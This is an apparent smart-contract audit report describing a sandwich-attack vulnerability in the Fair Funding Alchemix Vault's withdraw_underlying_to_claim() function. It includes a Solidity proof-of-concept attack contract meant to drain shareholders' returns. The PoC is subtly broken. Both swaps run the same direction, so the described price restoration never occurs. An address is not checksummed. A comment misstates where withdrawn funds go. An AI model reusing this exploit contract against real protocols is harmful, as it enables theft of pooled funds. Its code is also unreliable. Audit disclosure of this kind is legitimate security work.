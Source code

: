 oxcm

high

# [H] Attacker may use sandwich attack to steal protocol funds

## Summary

The `withdraw_underlying_to_claim()` method in the Fair Funding Alchemix Vault allows anyone to withdraw the extra shares to be distributed to token holders. The amount withdrawn is owned by all shareholders. The withdrawal function calls the withdrawUnderlying() function of Alchemist, which can be manipulated by an attacker to steal protocol investment returns through sandwich attacks by freely specifying `_min_weth_out`.

## Vulnerability Detail

The `_withdraw_underlying_from_alchemix()` function is called when `withdraw_underlying_to_claim()` is invoked, which calls the `withdrawUnderlying()` function of Alchemist. If the `TokenAdapter` uses an AMM similar to Uniswap for exchange, the attacker can implement a sandwich attack by setting `_min_weth_out` to 0. The attacker can manipulate the yield token and WETH's exchange rate, making yield token only be able to exchange for a small amount of WETH, and then restoring the price and stealing the exchange rate loss during the period.

### POC

Given:

* 1 yieldToken = 1 WETH
* claimable yieldToken = 10. 

Attacker can uses a self-made contract

1. manipulates the Uniswap Pool price, sells yieldToken and buys WETH, and lowers the price of yieldToken to 1 yieldToken = 0.1 WETH. 
2. call `withdraw_underlying_to_claim()` and set `_min_weth_out` to 0, forcing Fair Funding Alchemix Vault to sell 10 yieldToken at a price of 1 yieldToken = 0.1 WETH, and only recovering 1 WETH. 
3. buy back yieldToken and restores the price to profit from it.

code like:

```solidity
pragma solidity ^0.8.0;

import '@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol';

interface IAlchemistVault {
    function withdraw_underlying_to_claim(uint256 amount_shares, uint256 min_weth_out) external;
}

contract AlchemixAttack {
    IAlchemistVault public constant alchemix_vault = IAlchemistVault(address(0x73fddFb941c11d16E837Bd2dFA33A3B2A8752D1F));
    IUniswapV2Router02 public constant uniswap_router = IUniswapV2Router02(address(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D));

    address public constant weth_address = address(0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2);
    address public constant yield_token_address = address(0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F);

    constructor() {}

    function attack() external {
        uint256 amount_shares = 10;
        uint256 min_weth_out = 0;
        uint256 amount_yield_token = 10e18; // 10 yield token to be used to manipulate the price

        // Manipulate yield token price
        uniswap_router.swapExactTokensForTokens(
            amount_yield_token, // amount in
            0, // amount out (min)
            getPathForTokenToToken(yield_token_address, weth_address),
            address(this),
            block.timestamp
        );

        // Withdraw all shares to the contract address, causing Alchemix to receive WETH
        alchemix_vault.withdraw_underlying_to_claim(amount_shares, min_weth_out);

        // Manipulate yield token price again
        uniswap_router.swapExactTokensForTokens(
            amount_yield_token, // amount in
            0, // amount out (min)
            getPathForTokenToToken(yield_token_address, weth_address),
            address(this),
            block.timestamp
        );

        // The attacker should now own a large amount of yield tokens and have profited from the sandwich attack
    }

    function getPathForTokenToToken(address _tokenA, address _tokenB) private view returns (address[] memory) {
        address[] memory path = new address[](2);
        path[0] = _tokenA;
        path[1] = _tokenB;
        return path;
    }
}
```

## Impact

An attacker can design a sandwich attack to steal protocol investment returns which belongs to shareholders.

## Code Snippet

https://github.com/sherlock-audit/2023-02-fair-funding/blob/main/fair-funding/contracts/Vault.vy#L393-L404

```vyper=393
@external
def withdraw_underlying_to_claim(_amount_shares: uint256, _min_weth_out: uint256):
    """
    @notice
        Withdraws _amount_shares and _min_weth_out from Alchemix to be distributed
        to token holders.
        The WETH is held in this contract until it is `claim`ed.
    """
    amount_withdrawn: uint256 = self._withdraw_underlying_from_alchemix(_amount_shares, self, _min_weth_out)
    self._mark_as_claimable(amount_withdrawn)

    log Claimable(amount_withdrawn)
```

## Tool used

Manual Review / ChatGPT PLUS


## Recommendation

It is recommended to modify the `withdraw_underlying_to_claim() `method to only allow specific roles, such as the keeper, to call it. The parameter for controlling the sliding ratio should be determined by off-chain calculation.

